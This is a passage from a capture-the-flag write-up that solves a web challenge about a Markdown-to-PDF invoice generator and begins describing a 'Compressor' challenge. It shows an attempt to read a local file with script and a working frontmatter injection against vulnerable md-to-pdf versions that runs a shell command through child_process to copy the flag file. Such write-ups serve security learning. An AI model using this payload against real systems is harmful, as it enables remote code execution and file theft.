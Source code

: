 
The image above shows the textarea where invoices can be created using the Markdown format.
The downloadable part of the challenge showed that the flag was located in a `flag.txt` file in the root folder of the challenge, which however was not accessible from outside. The only content being statically served was the `/static/invoices/` path in which PDFs were generated by the `md-to-pdf` NodeJS module.
I tried embedding some HTML in the markdown code to somehow include the flag while being generated, but with no success.

```html
<p id='target'></p>

<script>
    x = new XMLHttpRequest();
    x.onload = function() {
        document.getElementById('target').innerHTML = this.responseText;
    };
    x.open("GET","file:///flag.txt");
    x.send();
</script>
```

After a while, I found the solution to be [an RCE vulnerability](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880) concerning `md-to-pdf` versions below 5.0, which was the case. Essentially, code can be injected in the frontmatter of an input file like so:

```js
---js
((require("child_process")).execSync("cp ../flag.txt  static/invoices/x.txt"))
---
```

Which lead to:

![Blinker Fluids web portal](/assets/posts/ca-22-web-2.png){:.img-big}


## Compressor
Connecting to the indicated socket returned a terminal interface to a utility that apparently allows to move across four directories and perform a number of predefined actions such as list, read, or compress files.
